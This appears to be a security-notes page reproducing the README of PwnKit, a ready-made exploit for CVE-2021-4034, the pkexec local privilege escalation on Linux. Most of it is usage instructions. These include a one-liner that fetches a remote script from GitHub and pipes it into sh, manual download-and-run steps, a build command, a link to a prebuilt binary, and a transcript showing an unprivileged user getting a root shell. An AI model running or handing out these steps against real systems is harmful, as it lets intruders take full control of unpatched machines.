 ```yaml
---
title : "CVE-2021-4034"
# pre : ' '
description : "Pkexec Local Privilege Escalation."
date : 2022-03-03T11:13:34+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2021-4034 - Pkexec Local Privilege Escalation

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```plain
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

![example](images/oneliner.png)

### Manually

```plain
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

![example](images/exploit.png)

### Patched

Running the exploit against patched versions will yield the following output.

![example](images/patched.png)

### Building Pwnkit

```plain
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

{{%resources fa_icon_class="far fa-file-pdf" pattern="PwnKit"/%}}

## Examples

```plain
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit 
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## URL List

- [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
- [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
- [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
